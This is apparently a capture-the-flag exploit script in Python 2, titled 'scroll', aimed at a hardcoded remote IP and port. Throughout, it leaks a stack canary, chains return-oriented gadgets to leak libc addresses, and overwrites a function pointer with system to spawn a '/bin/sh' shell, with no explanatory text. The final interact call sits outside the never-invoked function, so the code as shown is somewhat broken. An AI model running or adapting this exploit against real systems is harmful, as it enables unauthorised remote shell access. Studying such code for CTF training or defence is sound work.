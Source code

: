 # scroll
滚动条

#!/usr/bin/python
from zio import *
import struct
target = ('106.75.66.195', 20000)
#target= ('127.0.0.1',10000)
 
def exp(target):
    io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), print_write=COLORED(RAW, 'green'))
    c=raw_input('go1?')
    io.read_until('Who are you?\n')
    payload='A'*68+'MARK\n'
    io.write(payload)
    io.read_until('MARK')
    cookie = l64(io.read(8))-0x0a
    print hex(cookie)
    c=raw_input('go2?')
    payload ='A'*68+'MARK'+l64(cookie)
    payload+=l64(0x0000000000000000)#rbp
    payload+=l64(0x04007EA)   #pop rbx|0,rbp|1,r12|func,r13|rdx,r14|rsi,r15|edi  
    payload+=l64(0x0)
    payload+=l64(0x1)
    payload+=l64(0x601028)  #printf_got
    payload+=l64(0x0)   
    payload+=l64(0x0)
    payload+=l64(0x601030)
    payload+=l64(0x4007D0)
    payload+='1'*0x38
    payload+=l64(0x4006C6)   #main
     
    io.write(payload)
     
    test=io.read_until('\x7f')
    test=test[-6:]+'\x00'*2
    read=struct.unpack("<Q",test)[0]
    print hex(read)
    system=read-0xa60a0
###############################################################3
    io.read_until('Who are you?\n')
    payload='A'*68+'MARK\n'
    io.write(payload)
    io.read_until('MARK')
    cookie = l64(io.read(8))-0x0a
    print hex(cookie)
    c=raw_input('go2?')
    payload ='A'*68+'MARK'+l64(cookie)
    payload+=l64(0x0000000000000000)#rbp
    payload+=l64(0x04007EA)   #pop rbx|0,rbp|1,r12|func,r13|rdx,r14|rsi,r15|edi  
    payload+=l64(0x0)
    payload+=l64(0x1)
    payload+=l64(0x601030)  #read_got
    payload+=l64(0x10)   
    payload+=l64(0x601b00)
    payload+=l64(0x0)
    payload+=l64(0x4007D0)
    payload+='1'*0x38
    payload+=l64(0x4006C6)   #main
    io.write(payload)
    c=raw_input('go2?')
    io.write('/bin/sh'+'\x00'+l64(system))
#####################################################################
    io.read_until('Who are you?\n')
    payload='A'*68+'MARK\n'
    io.write(payload)
    io.read_until('MARK')
    cookie = l64(io.read(8))-0x0a
    print hex(cookie)
    c=raw_input('go2?')
    payload ='A'*68+'MARK'+l64(cookie)
    payload+=l64(0x0000000000000000)#rbp
    payload+=l64(0x04007EA)   #pop rbx|0,rbp|1,r12|func,r13|rdx,r14|rsi,r15|edi  
    payload+=l64(0x0)
    payload+=l64(0x1)
    payload+=l64(0x601b08)  #read_got
    payload+=l64(0x0)   
    payload+=l64(0x0)
    payload+=l64(0x601b00)
    payload+=l64(0x4007D0)
    payload+='1'*0x38
    payload+=l64(0x4006C6)   #main
    io.write(payload)
io.interact()
